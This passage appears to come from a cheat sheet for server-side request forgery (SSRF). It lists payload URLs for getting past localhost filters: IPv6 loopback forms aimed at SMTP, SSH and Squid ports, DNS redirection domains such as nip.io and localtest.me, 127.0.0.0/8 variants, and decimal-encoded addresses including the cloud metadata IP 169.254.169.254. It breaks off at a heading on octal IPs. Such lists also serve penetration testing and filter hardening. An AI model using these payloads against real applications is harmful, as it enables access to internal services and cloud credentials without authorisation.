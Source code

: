 ```powershell
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

```powershell
http://[0000::1]:80/
http://[0000::1]:25/ SMTP
http://[0000::1]:22/ SSH
http://[0000::1]:3128/ Squid
```

### Bypass localhost with a domain redirection

| Domain                       | Redirect to |
|------------------------------|-------------|
| localtest.me                 | `::1`       |
| localh.st                    | `127.0.0.1` |
| spoofed.[BURP_COLLABORATOR]  | `127.0.0.1` |
| spoofed.redacted.oastify.com | `127.0.0.1` |
| company.127.0.0.1.nip.io     | `127.0.0.1` |

The service nip.io is awesome for that, it will convert any ip address as a dns.

```powershell
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
```

### Bypass localhost with CIDR 

IP addresses from 127.0.0.0/8

```powershell
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Bypass using a decimal IP location

```powershell
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/ = http://169.254.169.254
```

### Bypass using octal IP
